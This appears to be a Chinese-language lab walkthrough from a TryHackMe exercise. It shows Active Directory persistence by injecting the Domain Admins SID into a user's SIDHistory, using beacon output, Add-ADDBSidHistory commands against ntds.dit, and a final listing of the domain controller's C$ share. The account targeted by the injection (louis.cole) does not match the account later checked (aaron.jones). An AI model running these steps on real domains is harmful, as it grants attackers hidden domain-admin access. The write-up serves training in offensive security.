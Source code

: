 ```

```

SIDHistory值为空


获取 Domain Admins 组的 SID，因为这是我们要添加到 SID 历史记录的组

```
beacon> powershell Get-ADGroup "Domain Admins"
[*] Tasked beacon to run: Get-ADGroup "Domain Admins"
[+] host called home, sent: 345 bytes
[+] received output:
#< CLIXML


DistinguishedName : CN=Domain Admins,CN=Users,DC=za,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Global
Name              : Domain Admins
ObjectClass       : group
ObjectGUID        : 3a8e1409-c578-45d1-9bb7-e15138f1a922
SamAccountName    : Domain Admins
SID               : S-1-5-21-3885271727-2693558621-2658995185-512

```


停止ntds服务,把Domain Admins的sid添加到SIDHistory，重启ntds服务服务
```
Stop-Service -Name ntds -force

Add-ADDBSidHistory -SamAccountName 'louis.cole' -SidHistory 'S-1-5-21-3885271727-2693558621-2658995185-512' -DatabasePath C:\Windows\NTDS\ntds.dit

Start-Service -Name ntds 
```

再次查询确认SIDhistory已添加进去
```
PS C:\Users\aaron.jones> Get-ADUser aaron.jones -Properties sidhistory 

DistinguishedName : CN=aaron.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc 
Enabled : True 
GivenName : Aaron 
Name : aaron.jones 
ObjectClass : user 
ObjectGUID : 7d4c08e5-05b6-45c4-920d-2a6dbba4ca22 
SamAccountName : aaron.jones 
SIDHistory : {S-1-5-21-3885271727-2693558621-2658995185-512} 
Surname : Jones 
UserPrincipalName : 
```

现在可以以普通域用户身份访问DC
```
PS C:\Users\aaron.jones> dir \\thmdc.za.tryhackme.loc\c$ 

Directory: \\thmdc.za.tryhackme.loc\c$ 

Mode LastWriteTime Length Name 
---- ------------- ------ ---- 
d----- 9/15/2018 8:19 AM PerfLogs 
d-r--- 5/11/2022 10:32 AM Program Files 
d----- 3/21/2020 8:28 PM Program Files (x86) 
d----- 4/25/2022 7:13 PM tmp 
da---- 5/11/2022 10:11 AM Tools 
d-r--- 4/27/2022 8:22 AM Users 
```